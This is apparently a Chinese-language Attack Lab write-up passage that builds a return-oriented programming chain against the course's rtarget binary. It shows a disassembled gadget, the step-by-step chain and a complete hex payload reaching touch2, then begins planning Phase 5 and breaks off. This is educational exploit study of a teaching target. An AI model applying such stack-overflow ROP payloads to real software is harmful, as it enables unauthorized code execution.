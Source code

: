 注意到

```assembly
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq
```

恰好满足我们的需求，只需移动到 0x4019c5，便可执行

```assembly
movq %rax, %rdi
ret
```

接下来就很简单了，需要按以下步骤执行：

1. 跳转至 0x4019ab
2. 执行指令，将栈中的 cookie( = 0x59b997fa) 压出，赋给 %rax
3. 跳转至 0x4019c5
4. 执行指令，将 %rax 赋给 %rdi
5. 跳转至 ``touch2``，即 0x4017ec 

基于以上步骤，我们可以快速写出攻击代码

``` 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

成功！

### Phase 5

这一阶段我们需要抵达 rtarget 的 ``touch3`` 。需要做的是：

1. 将字符串 "59b997fa" 的地址赋给 %rdi
2. 跳转至``touch3``

稍加思考，可以整理出如下思路：

1. 将当前栈的地址赋给一个寄存器A
2. 将（寄存器A的值 + 字符串偏移当前栈的大小）赋给寄存器B
3. 将寄存器B赋给 %rdi
4. 跳转至``touch3`` 

这里有两个难点：

1. 当前栈地址
2. 加法指令

题中并未给出加法指令，那么我们该如何执行加法呢？
